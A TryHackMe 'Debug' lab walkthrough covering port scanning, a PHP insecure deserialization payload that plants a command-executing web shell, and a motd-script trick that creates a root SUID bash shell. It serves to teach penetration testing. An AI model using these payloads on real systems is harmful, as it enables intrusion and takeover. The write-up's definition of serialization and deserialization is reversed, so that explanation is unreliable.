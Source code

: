 --------------------

### TRYHACKME
### Lab: Debug

--------------------

![image](https://github.com/user-attachments/assets/7a87a1ed-8d4c-43fd-a5f9-0a391f20067c)

--------------------

### Recon

- Rustscan's output

      ❯ rustscan -a 10.10.201.128 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Nmap? More like slowmap.🐢
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.201.128:22
      Open 10.10.201.128:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")                                                                                        
                                                                                                                                                       
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-17 16:03 EDT                                                                           
      NSE: Loaded 156 scripts for scanning.                                                                                                            
      NSE: Script Pre-scanning.                                                                                                                        
      NSE: Starting runlevel 1 (of 3) scan.                                                                                                            
      Initiating NSE at 16:03                                                                                                                          
      Completed NSE at 16:03, 0.00s elapsed                                                                                                            
      NSE: Starting runlevel 2 (of 3) scan.                                                                                                            
      Initiating NSE at 16:03                                                                                                                          
      Completed NSE at 16:03, 0.00s elapsed                                                                                                            
      NSE: Starting runlevel 3 (of 3) scan.                                                                                                            
      Initiating NSE at 16:03                                                                                                                          
      Completed NSE at 16:03, 0.00s elapsed                                                                                                            
      Initiating Ping Scan at 16:03                                                                                                                    
      Scanning 10.10.201.128 [2 ports]                                                                                                                 
      Completed Ping Scan at 16:03, 0.15s elapsed (1 total hosts)                                                                                      
      Initiating Parallel DNS resolution of 1 host. at 16:03                                                                                           
      Completed Parallel DNS resolution of 1 host. at 16:03, 0.02s elapsed
      DNS resolution of 1 IPs took 0.06s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 16:03
      Scanning 10.10.201.128 [2 ports]
      Discovered open port 22/tcp on 10.10.201.128
      Discovered open port 80/tcp on 10.10.201.128
      Completed Connect Scan at 16:03, 0.18s elapsed (2 total ports)
      Initiating Service scan at 16:03
      Scanning 2 services on 10.10.201.128
      Completed Service scan at 16:03, 6.82s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.201.128.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 16:03
      Completed NSE at 16:04, 9.48s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 16:04
      Completed NSE at 16:04, 1.02s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 16:04
      Completed NSE at 16:04, 0.00s elapsed
      Nmap scan report for 10.10.201.128
      Host is up, received syn-ack (0.16s latency).
      Scanned at 2024-08-17 16:03:47 EDT for 18s
      
      PORT   STATE SERVICE REASON  VERSION
      22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDar9Wvsxi0NTtlrjfNnap7o6OD9e/Eug2nZF18xx17tNZC/iVn5eByde27ZzR4Gf10FwleJzW5B7ieEThO3Ry5/kMZYbobY2nI8F3s20R8+sb6IdWDL4NIkFPqsDudH3LORxECx0DtwNdqgMgqeh/fCys1BzU2v2MvP5alraQmX81h1AMDQPTo9nDHEJ6bc4Tt5NyoMZZSUXDfJRutsmt969AROoyDsoJOrkwdRUmYHrPqA5fvLtWsWXHYKGsWOPZSe0HIq4wUthMf65RQynFQRwErrJlQmOIKjMV9XkmWQ8c/DqA1h7xKtbfeUYa9nEfhO4HoSkwS0lCErj+l9p8h
      |   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA7IA5s8W9jhxGAF1s4Q4BNSu1A52E+rSyFGBYdecgcJJ/sNZ3uL6sjZEsAfJG83m22c0HgoePkuWrkdK2oRnbs=
      |   256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGXyfw0mC4ho9k8bd+n0BpaYrda6qT2eI1pi8TBYXKMb
      80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
      |_http-title: Apache2 Ubuntu Default Page: It works
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      | http-methods: 
      |_  Supported Methods: GET HEAD POST OPTIONS
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- FFUF's output

![image](https://github.com/user-attachments/assets/1fa2b2c5-0673-4efb-9a8d-1ac3ee691861)

- Route `/backup` reveals the backup source code files of the site and focus will be on finding vulnerabilities in `index.php.bak`

![image](https://github.com/user-attachments/assets/2c6de75a-dbe1-4217-b4ee-e6cc3209d5ad)

----------------------------

### CODE REVIEW OF index.php
### Main vulnerability: Insecure Deserialization in function `unserialze()`
  
  Deserialization covers conversion of an object into bytes.Serialization  converts bytes into an object.These functions are carried out by some functions and if not properly handled might lead to remote code execution or other critical vulnerabilities e.g`pickle.dumps()[python],yaml.loads()[python],unserialize()[php]`.

- Index.php accept a get parameter `debug` which is then unserialized by the `unserialize()` function

      $debug = $_GET['debug'] ?? '';
      $messageDebug = unserialize($debug);

- `Unserialize()` is vulnerable to insecure deserialization which can be used to gain remote code execution as explained in this [site](https://www.invicti.com/blog/web-security/untrusted-data-unserialize-php/)

-  Abusing the unserialize function, we can access class `FormSubmit` which requires variables `form_file` and `message`.This class later runs the `__destruct` magic object to write the value of message to the form_file using the `file_puts_contents()` function.

            class FormSubmit {
            
            public $form_file = 'message.txt';
            public $message = '';
            
            public function SaveMessage() {
            
            $NameArea = $_GET['name']; 
            $EmailArea = $_GET['email'];
            $TextArea = $_GET['comments'];
            
            	$this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";
            
            }
            
            public function __destruct() {
            
            file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
            echo 'Your submission has been successfully saved!';
            
            }

-----------------------

### Exploit

- Exploit:

         O:10:"FormSubmit":2:{s:9:"form_file";s:9:"shell.php";s:7:"message";s:35:"<?php echo system($_GET['cmd']); ?>";}

- This exploit will call class `FormSubmit` and write a  php web shell code to shell.php in the current directory.
- Running it

      http://<ip>/index.php?debug=O:10:%22FormSubmit%22:2:{s:9:%22form_file%22;s:9:%22shell.php%22;s:7:%22message%22;s:35:%22%3C?php%20echo%20system($_GET[%27cmd%27]);%20?%3E%22;}

- Our web shell is ready

![image](https://github.com/user-attachments/assets/06daccd3-9901-4409-a667-a2931e43f731)

-----------------------------

### Initial Foothold

- Shell as www-data:

![image](https://github.com/user-attachments/assets/052ae04f-6d1b-43f4-bdf1-f340ef67a9aa)

- Running `linpeas.sh` privesc enumeration script  reveals user `james` hash stored in `.htpasswd`

![image](https://github.com/user-attachments/assets/d6e1645e-bbbf-4269-91d3-2b6267aa68e2)

- Cracking the shadow hash with John

![image](https://github.com/user-attachments/assets/3150b002-d493-41a1-83bc-cc0d28c63089)

- SSH access

![image](https://github.com/user-attachments/assets/4440561e-a28a-4ffb-9f4b-0a15e05815d9)

-------------------------

### PRIVESC with `/etc/update-motd.d` files

- An hint in  txt file reveals that we can modify ssh motd `message of the day` files.

![image](https://github.com/user-attachments/assets/287235ea-454f-4631-9eb3-82365bacf793)

- I learnt that `/etc/update-motd.d/` contains such files and I got an exploitation idea from this [site](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/).

      echo "cp /bin/bash /home/<username>/bash && chmod u+s /home/<username>/bash" >> /etc/update-motd.d/00-header
      exit
      ssh again
      ./bash -p

- Exploiting the 00-header file

![image](https://github.com/user-attachments/assets/6f9849fe-3709-49e5-9067-5a4d1229ed01)

- Root
  
![image](https://github.com/user-attachments/assets/ae599468-0fb9-4760-abae-a34992083c3c)

------------------

### THANKS FOR READING!!!!!!!!

-----------------------

### REFERENCES:

- [SSH-MOTD'S PRIVESC](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/)
- [Insecure Deserialization](https://www.invicti.com/blog/web-security/untrusted-data-unserialize-php/)
- [Php Object injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md)


-----------------------





  
  


